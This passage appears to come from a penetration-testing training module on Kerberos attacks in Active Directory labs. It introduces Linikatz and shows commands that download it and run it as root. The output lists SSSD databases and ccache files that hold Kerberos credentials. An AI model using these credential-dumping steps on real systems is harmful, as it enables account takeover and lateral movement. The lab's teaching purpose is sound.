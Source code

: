 ```cmd-session
        End Time:   10/10/2022 15:46:02 (local)
        Renew Time: 10/11/2022 5:46:02 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:

C:\htb>dir \\dc01\julio
 Volume in drive \\dc01\julio has no label.
 Volume Serial Number is B8B3-0D72

 Directory of \\dc01\julio

07/14/2022  07:25 AM    <DIR>          .
07/14/2022  07:25 AM    <DIR>          ..
07/14/2022  04:18 PM                17 julio.txt
               1 File(s)             17 bytes
               2 Dir(s)  18,161,782,784 bytes free
```


## Linikatz

[Linikatz](https://github.com/CiscoCXSecurity/linikatz) is a tool created by Cisco's security team for exploiting credentials on Linux machines when there is an integration with Active Directory. In other words, Linikatz brings a similar principle to `Mimikatz` to UNIX environments.

Just like `Mimikatz`, to take advantage of Linikatz, we need to be root on the machine. This tool will extract all credentials, including Kerberos tickets, from different Kerberos implementations such as FreeIPA, SSSD, Samba, Vintella, etc. Once it extracts the credentials, it places them in a folder whose name starts with `linikatz.`. Inside this folder, you will find the credentials in the different available formats, including ccache and keytabs. These can be used, as appropriate, as explained above.

#### Linikatz download and execution

```shell-session
realCustampin@htb[/htb]$ wget https://raw.githubusercontent.com/CiscoCXSecurity/linikatz/master/linikatz.sh
realCustampin@htb[/htb]$ /opt/linikatz.sh
 _ _       _ _         _
| (_)_ __ (_) | ____ _| |_ ____
| | | '_ \| | |/ / _` | __|_  /
| | | | | | |   < (_| | |_ / /
|_|_|_| |_|_|_|\_\__,_|\__/___|

             =[ @timb_machine ]=

I: [freeipa-check] FreeIPA AD configuration
-rw-r--r-- 1 root root 959 Mar  4  2020 /etc/pki/fwupd/GPG-KEY-Linux-Vendor-Firmware-Service
-rw-r--r-- 1 root root 2169 Mar  4  2020 /etc/pki/fwupd/GPG-KEY-Linux-Foundation-Firmware
-rw-r--r-- 1 root root 1702 Mar  4  2020 /etc/pki/fwupd/GPG-KEY-Hughski-Limited
-rw-r--r-- 1 root root 1679 Mar  4  2020 /etc/pki/fwupd/LVFS-CA.pem
-rw-r--r-- 1 root root 2169 Mar  4  2020 /etc/pki/fwupd-metadata/GPG-KEY-Linux-Foundation-Metadata
-rw-r--r-- 1 root root 959 Mar  4  2020 /etc/pki/fwupd-metadata/GPG-KEY-Linux-Vendor-Firmware-Service
-rw-r--r-- 1 root root 1679 Mar  4  2020 /etc/pki/fwupd-metadata/LVFS-CA.pem
I: [sss-check] SSS AD configuration
-rw------- 1 root root 1609728 Oct 10 19:55 /var/lib/sss/db/timestamps_inlanefreight.htb.ldb
-rw------- 1 root root 1286144 Oct  7 12:17 /var/lib/sss/db/config.ldb
-rw------- 1 root root 4154 Oct 10 19:48 /var/lib/sss/db/ccache_INLANEFREIGHT.HTB
-rw------- 1 root root 1609728 Oct 10 19:55 /var/lib/sss/db/cache_inlanefreight.htb.ldb
-rw------- 1 root root 1286144 Oct  4 16:26 /var/lib/sss/db/sssd.ldb
-rw-rw-r-- 1 root root 10406312 Oct 10 19:54 /var/lib/sss/mc/initgroups
-rw-rw-r-- 1 root root 6406312 Oct 10 19:55 /var/lib/sss/mc/group
```